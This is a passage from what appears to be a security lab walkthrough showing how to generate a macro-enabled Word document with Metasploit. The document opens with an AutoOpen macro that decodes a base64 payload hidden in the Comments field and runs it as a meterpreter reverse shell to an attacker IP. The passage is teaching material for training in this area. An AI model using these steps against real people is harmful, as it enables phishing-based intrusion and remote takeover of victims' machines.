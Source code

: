 You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal



![](images/Pasted%20image%2020241210205337.png)

Nice, now we have our malicious macro file. 

## The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created by `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro. **Note:** The AttackBox doesn’t have MS Office installed, so for this section you only have to read along.  

1. `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2. `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3. `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

![Example macro code with functions and subroutines](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859885481.png)  

The **Comments** field is shown in the screenshot below. It is close to 100,000 characters in our case.

![The Comments field in an MS Office document](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859926077.png)  

If you copy it and save it to a text file, you can convert it to its original executable format using `base64` as shown below. You can notice the size of the files.

```shell-session
root@AttackBox:~# base64 -d payload-base64.txt > payload.exe
root@attackbox:~# ls -lh
-rw-r--r--. 1 root root 97K payload-base64.txt
-rw-r--r--. 1 root root 73K payload.exe
```
